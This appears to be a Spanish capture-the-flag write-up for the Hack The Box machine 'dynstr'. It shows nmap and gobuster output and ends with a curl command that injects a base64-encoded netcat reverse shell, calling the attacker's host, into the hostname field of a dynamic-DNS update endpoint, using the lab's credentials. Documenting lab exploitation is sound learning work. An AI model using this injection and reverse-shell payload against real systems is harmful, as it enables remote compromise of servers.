 # dynstr

## Reconocimiento 

¨¨¨
# Nmap 7.92 scan initiated Sun Jun 12 15:38:52 2022 as: nmap -p- --min-rate=1000 -sS -v -n -oN nmap.init 10.10.10.244
Nmap scan report for 10.10.10.244
Host is up (0.27s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Jun 12 15:40:04 2022 -- 1 IP address (1 host up) scanned in 72.41 seconds
¨¨¨
## Enumeración web 


¨¨¨bash
gobuster dir -u http://10.10.10.244/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o gobuster.root.medium
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.244/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 21:13:00 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.244/assets/]
/nic                  (Status: 301) [Size: 310] [--> http://10.10.10.244/nic/]   
¨¨¨
Esta el directorio nic asi que vamos a inspeccionarlos detalladamente.


¨¨¨bash
gobuster dir -u http://10.10.10.244/nic -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o gobuster.root.medium.nic
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.244/nic
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 21:14:13 Starting gobuster in directory enumeration mode
===============================================================
/update               (Status: 200) [Size: 8]
¨¨¨

Se encontro la ruta /nic/update

Despues de googlear se encontro que el end point era de un servicio DNS.

#### Explotación
Se tenia que hacer con el payload **encodeUrl($(encodeB64(revshell)))** 

El payload es el siguiente:

    curl "http://dynadns:sndanyd@10.10.10.244/nic/update?myip=127.0.0.1&hostname=%24%28echo%20%22cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgMTAuMTAuMTYuMiAyOTE1MSA%2BL3RtcC9mCg%3D%3D%22%7Cbase64%20-d%7Cbash%29.dynamicdns.htb&username=dynadns&password=sndanyd"








